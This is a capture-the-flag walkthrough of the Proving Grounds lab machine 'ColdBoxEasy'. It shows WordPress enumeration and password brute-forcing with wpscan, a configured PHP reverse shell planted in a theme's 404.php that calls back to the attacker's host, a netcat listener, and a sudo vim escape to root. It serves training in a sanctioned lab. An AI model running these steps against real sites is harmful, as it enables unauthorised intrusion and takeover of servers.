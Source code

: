 # Proving Grounds Play - ColdBoxEasy

#### Ip: 192.168.220.248
#### Name: ColdBoxEasy
#### Rating: Easy
#### Community Rating: Easy

------------------------------------------------

#### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/PG/Play/ColdBoxEasy]
└─$ sudo nmap -p- -sC -sV --min-rate=10000 192.168.167.239
Starting Nmap 7.93 ( https://nmap.org ) at 2025-07-24 12:57 CDT
Nmap scan report for 192.168.167.239
Host is up (0.071s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: ColddBox | One more machine
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ebf98c09bc536808c96e8969565973b (RSA)
|   256 8817f1a844f7f8062fd34f733298c7c5 (ECDSA)
|_  256 f2fc6c750820b1b2512d94d694d7514f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.82 seconds
```

Looking at the page on port 80 we find it is running WordPress.

![pgplay_coldboxeasy_site.png](../assets/pg_play_assets/prplay_coldboxeasy_site.png)

Kicking off some scanning against the site using wpscan, we find some usernames:

```
┌──(ryan㉿kali)-[~/PG/Play/ColdBoxEasy]
└─$ wpscan --url 192.168.167.239 --enumerate vp,u,vt,tt
```

pgplay_coldboxeasy_usernames.png


Directory fuzzing reveals: http://192.168.167.239/hidden/ which contains an interesting message:

```

U-R-G-E-N-T
C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip
```

### Exploitation

From here we find we can bruteforce user c0ldd's password using wpscan:

```
┌──(ryan㉿kali)-[~/PG/Play/ColdBoxEasy]
└─$ wpscan --url http://192.168.167.239/wp-login.php --usernames c0ldd --passwords /usr/share/wordlists/rockyou.txt
<SNIP>
[!] Valid Combinations Found:
 | Username: c0ldd, Password: 9876543210
```

Let's use this to login:

pgplay_coldboxeasy_in.png

We can now grab a copy of PentestMonkey's famous php-reverse-shell.php and update the variables for our attacking box:

```php
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.45.171';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

Let's then copy the script and go to Appearance > Themes > Editor, and overwrite the 404.php code.

pgplay_coldboxeasy_themes.png

From here we can set up a nc listener and navigate to http://192.168.167.239/wp-content/themes/twentyfifteen/404.php to trigger our shell.

```
┌──(ryan㉿kali)-[~/PG/Play/ColdBoxEasy]
└─$ nc -lnvp 9001                   
listening on [any] 9001 ...
connect to [192.168.45.171] from (UNKNOWN) [192.168.167.239] 33962
Linux ColddBox-Easy 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 20:31:49 up 37 min,  0 users,  load average: 0.00, 0.08, 0.27
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
ColddBox-Easy
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ColddBox-Easy:/$ 
```

We can now grab the local.txt flag:

pgplay_coldboxeasy_user.png

### Privilege Escalation

Looking at the wp-config.php file in `/var/www/html` we find some credentials:

pgplay_coldboxeasy_creds.png

We can use these to `su c0ldd`:

```
www-data@ColddBox-Easy:/var/www/html$ su c0ldd
Password: 
c0ldd@ColddBox-Easy:/var/www/html$ whoami
c0ldd
```

Seeing what c0ldd can run with elevated permissions:

```
c0ldd@ColddBox-Easy:/var/www/html$ sudo -l
[sudo] password for c0ldd: 
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```

Cool, we've got a few options here, let's exploit vim for a root shell:

Let's head to gtfobins and grab the command we'll need: https://gtfobins.github.io/gtfobins/vim/#sudo

```
sudo /usr/bin/vim -c ':!/bin/sh'
```

We can now grab the root flag:

pgplay_coldboxeasy_root.png

Thanks for following along!

-Ryan

